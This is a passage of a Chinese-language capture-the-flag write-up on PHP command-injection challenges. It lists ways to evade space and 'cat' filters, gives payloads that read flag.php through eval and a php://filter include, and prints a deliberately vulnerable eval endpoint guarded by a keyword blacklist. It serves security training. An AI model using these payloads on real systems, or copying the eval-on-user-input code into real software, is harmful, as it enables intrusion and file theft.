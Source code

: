 emmmmm ,过滤了空格，单引号等

**空格绕过**

```
> < <> 重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功能
%20
%09
```

**cat被过滤**

```
more:一页一页的显示档案内容
less:与 more 类似
head:查看头几行
tac:从最后一行开始显示，可以看出 tac 是 cat 的反向显示
tail:查看尾几行
nl：显示的时候，顺便输出行号
od:以二进制的方式读取档案内容
vi:一种编辑器，这个也可以查看
vim:一种编辑器，这个也可以查看
sort:可以查看
uniq:可以查看
file -f:报错出具体内容

```



解法一：
payload: c=echo(`tac%09f*`);

解法二：
c=include($_GET["url"]);?>&url=php://filter/read=convert.base64-encode/resource=flag.php

直接单引号改双引号即可



## web 32

```php
<?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```
